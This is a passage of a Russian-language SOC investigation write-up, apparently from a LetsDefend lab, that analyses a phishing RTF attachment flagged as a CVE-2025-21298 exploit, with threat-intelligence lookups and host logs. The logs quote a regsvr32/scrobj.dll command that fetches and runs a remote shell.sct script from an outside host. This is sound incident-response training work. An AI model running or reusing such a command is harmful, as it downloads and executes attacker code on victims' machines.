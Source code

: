 Проверим хэш вложения по открытым площадкам:
## VirusTotal
23/62 вендоров отмечают файл как вредоносный. Доминирующая сигнатура: Exploit/CVE-2025-21298

<img width="1346" height="1289" alt="image" src="https://github.com/user-attachments/assets/81da161b-24b8-40bf-ba91-f6ea722a72ef" />

## FileScan.io

Не найдено репортов с упоминанием данного хэша

<img width="821" height="369" alt="image" src="https://github.com/user-attachments/assets/48e9fb04-84d3-4b39-acce-79232d3f60c3" />

По наименованию вложения `mail.rtf` тоже пусто

<img width="441" height="201" alt="image" src="https://github.com/user-attachments/assets/8a8b459b-923d-49af-87db-cbe69dfff0aa" />

## OpenTIP Kaspersky

Результат: Вредоносное ПО
Сигнатура: HEUR:Exploit.RTF.CVE-2025-21298.gen

<img width="2034" height="1054" alt="image" src="https://github.com/user-attachments/assets/72a64f75-36a2-483f-8c92-f5bcaaeae1ef" />

Перед анализом письма в песочнице проверим логи с АРМ пользователя, не зафиксировано ли странной активности после открытия письма. Для этого отметим: 
* время получения письма - **Feb, 04, 2025, 05:12 AM**;
* имя пользователя - **Austin@letsdefend.io**

И мы находим такую машину, теперь детальней разберем активность:

<img width="1286" height="1167" alt="image" src="https://github.com/user-attachments/assets/d6bc6199-e461-42cd-932d-eb293d6c944b" />

По событиям на хосте зафиксирован запуск процесса C:\Program Files\Microsoft Office\root\Office16\OUTLOOK.EXE.
Родительский процесс: C:\Windows\explorer.exe
Дата и время возникновения: Feb 04 2025 08:05:15
Действие выполнялось под учетной записью: DESKTOP-USER\Austin

Далее в Feb 04 2025 08:06:08 зафиксирован запуск процесса C:\Windows\System32\cmd.exe.
Запускаемая команда: "C:\Windows\System32\cmd.exe /c regsvr32.exe /s /u /i:http://84.38.130.118.com/shell.sct scrobj.dll"
Родительский процесс: C:\Program Files\Microsoft Office\root\Office16\OUTLOOK.EXE
Действие выполнялось под учетной записью: DESKTOP-USER\Austin

scrobj.dll — это динамическая библиотека (DLL) от Microsoft с официальным названием Windows Script Component Runtime. Она входит в состав различных версий Windows и предназначена для поддержки компонентов сценариев (script components), реализуемых на базе COM (Component Object Model).

Команда заставляет Windows с помощью regsvr32.exe загрузить и выполнить удалённый скрипт с помощью возможностей scrobj.dll.

По информации из открыты источников: 84[.]38[.]130[.]118
